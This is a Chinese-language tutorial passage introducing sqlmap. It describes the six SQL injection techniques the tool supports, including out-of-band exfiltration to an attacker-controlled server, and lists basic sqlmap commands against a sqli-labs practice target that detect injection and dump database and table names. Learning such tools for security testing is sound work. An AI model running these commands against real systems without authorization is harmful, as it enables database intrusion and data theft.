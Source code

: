 ## 5.1.**sqlmap介绍**

### 5.1.1.**sqlmap简介**

#### 5.1.1.1.**sqlmap简介**

Sqlmap是一个开源的渗透测试工具，可以用来自动化的检测，利用SQL注入漏洞，获取数据库服务器的权限。它具有功能强大的检测引擎，针对各种不同类型数据库的渗透测试的功能选项，包括获取数据库中存储的数据，访问操作系统文件甚至可以通过外带数据连接的方式执行操作系统命令。

#### 5.1.1.2.**sqlmap支持**

目前支持的数据库有MySQL、Oracle、PostgreSQL、Microsoft SQL Server、Microsoft Access等大多数据库。

### 5.1.2.**sqlmap支持的注入方式**

Sqlmap全面支持六种SQL注入技术：

基于布尔类型的盲注：即可以根据返回页面判断条件真假的注入。

基于时间的盲注：即不能根据页面返回的内容判断任何信息，要用条件语句查看时间延迟语句是否已执行(即页面返回时间是否增加)来判断。

基于报错注入：即页面会返回错误信息，或者把注入的语句的结果直接返回到页面中。

联合查询注入：在可以使用Union的情况下的注入。

堆查询注入：可以同时执行多条语句时的注入。

带外注入：构造SQL语句，这些语句在呈现给数据库时会触发数据库系统创建与攻击者控制的外部服务器的连接。以这种方式，攻击者可以收集数据或可能控制数据库的行为。

### 5.1.3.**sqlmap安装**

该工具可以在kail中是自带的。

## 5.2.**sqlmap使用**

### 5.2.1.**常用参数**

命令：Sqlmap -u "http://192.168.10.150/sqlilabs/Less-1/?id=1"  

\#探测该页面是否存在漏洞。

命令：sqlmap -u "http://192.168.10.150/sqlilabs/Less-1/?id=1" --cookie="抓取的cookie"  

\#当网站需要登录时，探测该页面是否存在漏洞。

命令：sqlmap -u "http://192.168.10.150/sqlilabs/Less-1/?id=1" --data="username=admin&password=admin&submit=submit" 

\#抓取其post提交的数据填入

命令：sqlmap -u "http://192.168.10.150/sqlilabs/Less-1/?id=1" --dbs     

\#爆出所有的数据库

命令：sqlmap -u "http://192.168.10.150/sqlilabs/Less-1/?id=1" --tables   

\#爆出所有的数据表
